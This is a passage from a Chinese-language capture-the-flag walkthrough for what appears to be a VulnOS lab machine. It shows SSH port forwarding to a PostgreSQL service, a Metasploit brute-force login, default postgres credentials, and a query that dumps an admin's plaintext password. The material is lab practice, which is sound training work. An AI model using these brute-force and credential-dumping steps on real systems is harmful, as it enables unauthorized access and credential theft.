 ```shell
# Hydra (http://www.thc.org/thc-hydra) finished at 2024-02-04 19:57:01
```

### 端口转发攻击端爆破

这是原本作者的做法：

```shell
# 本地kali-终端1
ssh webmin@192.168.244.184 -L 5432:localhost:5432
# 另起一个终端kali-终端2
msfconsole
use auxiliary/scanner/postgres/postgres_login
set RHOSTS 127.0.0.1 
run
```

![image-20240205033655630](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338493.png)

这种构思也太巧妙了，真牛逼，记下来了！！

### 登录高权限账号

我们就获取了账号密码：`login: postgres`还有`password: postgres`。

登录`postpresql`，获取账号密码：

```shell
psql -h localhost -U postgres
\l
#                                   List of databases
#    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
# -----------+----------+----------+-------------+-------------+-----------------------
#  postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
#  system    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =CTc/postgres        +
#            |          |          |             |             | postgres=CTc/postgres
#  template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
#            |          |          |             |             | postgres=CTc/postgres
#  template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
#            |          |          |             |             | postgres=CTc/postgres
# (4 rows)
\c system
# SSL connection (cipher: DHE-RSA-AES256-GCM-SHA384, bits: 256)
# You are now connected to database "system" as user "postgres".
\dt
#          List of relations
#  Schema | Name  | Type  |  Owner   
# --------+-------+-------+----------
#  public | users | table | postgres
# (1 row)
select * from users;
#  ID |  username   |    password     
# ----+-------------+-----------------
#   1 | vulnosadmin | c4nuh4ckm3tw1c3
```

